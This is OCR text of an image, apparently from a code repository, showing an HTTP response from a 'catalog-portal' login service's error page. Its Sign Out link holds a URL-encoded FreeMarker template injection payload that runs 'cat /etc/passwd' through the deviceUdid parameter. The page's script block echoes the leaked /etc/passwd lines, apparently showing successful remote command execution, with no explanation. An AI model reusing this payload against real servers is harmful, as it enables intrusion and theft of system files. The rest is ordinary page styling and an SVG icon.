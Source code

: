 ```http
            position: fixed;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            -ms-transform: translate(-50%, -50%);
            text-align: center;
            width: 25%;
            background-color: #fff;
            padding: 20px;
            box-shadow: 0 3px 2px -2px rgba(0, 0, .5, 0.35);
            border-radius: 4px;
        }

        .error-img-container svg {
            width: 40px;
        }

        .error-text-heading {
            font-weight: bold;
            padding-top: 5px;
            padding-bottom: 10px;
        }

        .error-text-container a {
            text-decoration: none;
        }
    </style>
</head>

<body>
<div class="error-container">
    <div class="error-img-container">
        <svg id="icon-warning-big" xmlns="http://www.w3.org/2000/svg" width="32" height="32" viewBox="0 0 32 32">
            <path d="M28.48,24.65,17.64,5.88a1.46,1.46,0,0,0-1.28-.74h0a1.46,1.46,0,0,0-1.28.74L4.25,24.64a1.48,1.48,0,0,0,1.28,2.22H27.2a1.48,1.48,0,0,0,1.28-2.21Zm-1.07.86a.24.24,0,0,1-.21.12H5.53a.24.24,0,0,1-.21-.37L16.15,6.49a.24.24,0,0,1,.21-.12h0a.24.24,0,0,1,.21.12L27.41,25.26A.23.23,0,0,1,27.41,25.51Z"
                  fill="#991700" stroke-width="0"/>
            <circle cx="16.36" cy="13.53" r="0.92" fill="#f38b00" stroke-width="0"/>
            <path d="M16.36,16.43a.62.62,0,0,0-.62.62v5.55a.62.62,0,0,0,1.23,0V17A.62.62,0,0,0,16.36,16.43Z"
                  fill="#991700" stroke-width="0"/>
        </svg>
    </div>
    <div class="error-text-heading">Request Failed</div>
    <div class="error-text-container">
        <p>Please contact your IT Administrator.</p>
        <a href="/catalog-portal/ui/logout?error=&deviceUdid=$%7B%22freemarker.template.utility.Execute%22?new()(%22cat%20/etc/passwd%22)%7D">Sign Out</a>
    </div>
</div>
</body>
<script>
    if (console && console.log) {
        console.log("auth.context.invalid");
        console.log("Authorization context is not valid. Login request  received with tenant code: ███████, device id: root:x:0:0:root:/root:/bin/bash...bin:x:1:1:bin:/dev/null████████
    }
</script>
</html>
```
